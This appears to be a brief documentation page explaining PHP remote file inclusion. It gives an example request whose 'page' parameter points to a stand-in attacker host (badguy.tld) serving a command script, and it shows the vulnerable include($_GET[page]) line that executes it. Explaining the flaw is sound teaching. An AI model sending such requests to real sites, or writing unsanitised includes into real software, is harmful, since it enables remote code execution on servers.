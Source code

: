 Security : Code Injection
=========================

.. contents::

PHP code injection
------------------

The attack, in the form of an HTTP request

::

        index.php?page=http://badguy.tld/marlwar.cmd?cmd=ls

Resulting PHP code

::

        <? include ($_GET[page]); ?>

causes the web server to act like a client and download the software in question

